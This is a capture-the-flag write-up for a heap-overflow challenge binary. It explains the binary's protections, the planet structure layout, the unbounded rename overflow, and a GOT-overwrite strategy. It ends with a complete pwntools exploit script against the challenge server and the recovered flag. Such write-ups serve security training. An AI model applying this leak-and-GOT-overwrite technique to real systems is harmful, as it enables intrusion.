 # Intro

Protections:

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
<br>
After submitting the password "secret_passwd_anti_bad_guys" the game is initialized and menu is unlocked:

```shell
$ ./challs
Passwd: secret_passwd_anti_bad_guys
Welcome in a new dimension...
	...Boooom... the big bang sound...
		a new universe has begun, with new physics laws...
	...here stacks look safe!
What is your next move? (Help)
>Help
Help		print help menu
Exit		close the connection
Jump		move to the next plant
GetName		get planet name
Rename		rename planet
Check		check if you can overflow the stack
GoBack		move to the previous planet
Search		looking for Zer0
Nap		    Get a nap
Admin		Access as Admin
What is your next move? (Help)
>
```
<br>
Initialization:

![img/a0.png](img/a0.png)

So 11 planet are created. They reside in the heap and each of them has the following structure:

                            ---------------
                            | planet name |
                ---------------------------
                |           | &data_40d0  |
                ---------------------------
                | next      | previous    |
                ---------------------------

- planet name: string
- &data_40d0: pointer to the "stamina" data of the game, which reside in the .data section
- next: pointer to the next planet
- previous: pointer to the previous planet


the pointer to the current planet is stored in a .bss variable


# Vulnerability

![img/a1.png](img/a1.png)

The function for renaiming the current planet gets an arbitrary length input, so we can overflow the internal data of the planet structure. Since we can overwrite "next" pointer we have a Write What Where condition.
Partial Relro gives us the possibility to write in the GOT table.

# Strategy

- Rename: write 16 characters to fill planet name and space before &data_40d0
- Print planet name: this will leak &data_40d0 address so we can calculate addresses of exit in the GOT table and the function to execute commands
- Rename: use the overflow to overwrite data and modify "next" poi ter with exit@got address
- Jump: update current pointer to the next so to point at exit@got
- Rename: overwrite exit with the admin function to execute commands
- exit: exit from menu and send the command to execute


# Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("challs")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
c
'''

PADDING = b'A'*16


def conn():
    if args.LOCAL:
        r = gdb.debug("./challs", gdbscript=gs)
    else:
        r = remote("gamebox3.reply.it", 2692)
    return r


def rename(r, payload):
    r.sendlineafter(">", b'Rename')
    r.sendlineafter(b'Enter the new name\n', payload)
 

def leak(r):
    r.sendlineafter(">", b'GetName')
    r.recvuntil(b'AAAAAAAAAAAAAAAA')
    return u64(r.recvuntil(b'\n').strip(b'\n').ljust(8, b'\x00'))


def jump(r):
    r.sendlineafter(">", b'Jump')


def get_flag(r):
    r.sendlineafter(">", b'Exit')
    r.sendlineafter("> ", b'cat flag')
    r.interactive()



def main():
    r = conn()
    r.sendlineafter("Passwd: ", b'secret_passwd_anti_bad_guys')
    rename(r, PADDING)
    dataleak = leak(r)
    exit_got = dataleak - 0x40
    win = dataleak - 0x284A
    print("LEAK:.......",hex(dataleak))
    print("EXIT@GOT:...",hex(exit_got))
    print("WIN:........",hex(win))
    rename(r, PADDING + b'A'*8 + p64(exit_got))
    jump(r)
    rename(r, p64(win))
    get_flag(r)   


if __name__ == "__main__":
    main()
```

# Flag
`{FLG:jump_in_jump_to_Jump}`
